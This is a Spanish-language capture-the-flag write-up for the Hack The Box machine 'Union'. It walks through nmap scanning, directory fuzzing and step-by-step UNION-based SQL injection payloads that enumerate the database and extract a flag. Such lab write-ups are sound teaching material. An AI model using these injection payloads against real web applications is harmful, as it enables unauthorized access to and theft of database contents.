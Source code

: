 ```yaml
---
layout: post
title:  "Maquina Retirada Union de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada UNION
tags: HTB, SQLI, Local File Inclusion, PHP, x-Forwarder-For, Maquinas Retiradas,
---
```


# Union - SQL Injection ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allports 10.10.11.128       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
 PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 
Procedemos a Enumerar los Recursos de la Web con extension .php :
```bash
Target: http://10.10.11.128/FUZZ.php
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000000002:   200        42 L     93 W       1220 Ch     "index"                                                                                                                                                                   
000000868:   200        0 L      2 W        13 Ch       "firewall"                                                                                                                                                                
000001477:   200        0 L      0W "config"                                                                                                                                                                
000004086:   200        20 L     61 W       772 Ch      "challenge"
```

Vemos que tenemos un campo vulnerable a Inyecciones SQLI, es importante destacar que0 Nos damos cuenta mediante el uso de los siguientes Payloads
```bash
POST /index.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 32
Origin: http://10.10.11.128
Connection: close
Referer: http://10.10.11.128/index.php
Cookie: PHPSESSID=g9cr58rofn03mlbo8ouiml4c07

player=admin' union select 1-- -    
```
Respuesta de la Injeccion SQL, en la que vemos que tenemos un solo campo.

```bash
Sorry, "1" you are not eligible due to already qualifying.
```
Procedemos a intentar meterle un segundo payload para enumerar la Base de Datos en la que estamos
```bash
player=admin' union select database()-- -
```

Respuesta
```bash
Sorry, "November" you are not eligible due to already qualifying.
``` 

Como solo tenemos un campo para listar contenido, procedemos a usar la expresion group-concat() 
```bash
player=admin' union select group_concat(schema_name,':') from information_schema.schemata-- -
```
Resppuesta para la enumeracion de Bases de Datos

```bash
Sorry, "mysql:, information_schema:, performance_schema:, sys:, november:" you are not eligible due to already qualifying.
```
Enumeracion de Tablas para la base de datos `November`

```bash
player=admin' union select group_concat(table_name,':') from information_schema.tables where table_schema="November"-- -
```
Resppuesta para la enumeracion de Tablas para la Base de Datos `Ǹovember`

```bash
Sorry, "flag:,players:" you are not eligible due to already qualifying.
```

Enumeracion de Columnas para la Base de Datos `November`
```bash
player=admin' union select group_concat(column_name,':') from information_schema.columns where table_schema="November" and table_name="flag"-- -
```
Respuesta para las Columnas para la Base de Datos `November`

```bash
Sorry, "one:" you are not eligible due to already qualifying.
```
Vemos que solo tenemos una Columna en la Tabla Name `flag` y Base de Datos `November`
Procedemos a listar la data para la columna enumerada `one`

```bash
player=admin' union select one from November.flag-- -
```

Obtenemos la `Data` para la Columna `one` en la Tabla `flag` y en la Base de Datos `November`
```bash
Sorry, "UHC{F1rst_5tep_2_Qualify}" you are not eligible due to already qualifying.
```

Encontramos la flag que nos piden 















































